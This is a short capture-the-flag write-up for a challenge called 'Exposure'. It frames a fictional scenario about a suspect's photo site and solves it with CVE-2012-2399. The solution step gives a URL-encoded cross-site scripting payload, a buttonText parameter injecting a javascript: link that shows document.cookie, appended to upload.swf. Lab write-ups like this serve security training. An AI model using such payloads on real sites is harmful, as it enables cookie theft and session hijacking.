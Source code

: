 # Exposure
One of the Bulldogs, Lara Mindsay, is a surveillance expert and we think she's been using advanced drones to take high resolution photos of the bank from different angles.

She also runs a small legit side project, a photo site which allows anyone to create an account and upload photos. We think she's using it herself to store the bank surveillance photos and so we want to see if it's vulnerable. We've been penetration testing the site but have not had any success so far, then this morning one of the other agents sent me a tip - CVE-2012-2399. Take a look and see if you can use it to see if the site is vulnerable.

**Tip:** Find the vulnerability to get the flag.

## Steps
1. In the URL link of the page, add *?buttonText=%3Ca%20href=%27javascript:alert(document.cookie)%27%3EClick%20me%3C/a%3E* after *upload.swf*
    - This is the *CVE-2012-2399* cross-site scripting vulnerability

![CVE-2012-2399 vulnerability](/assets/screenshots/hq-11-Exposure.png)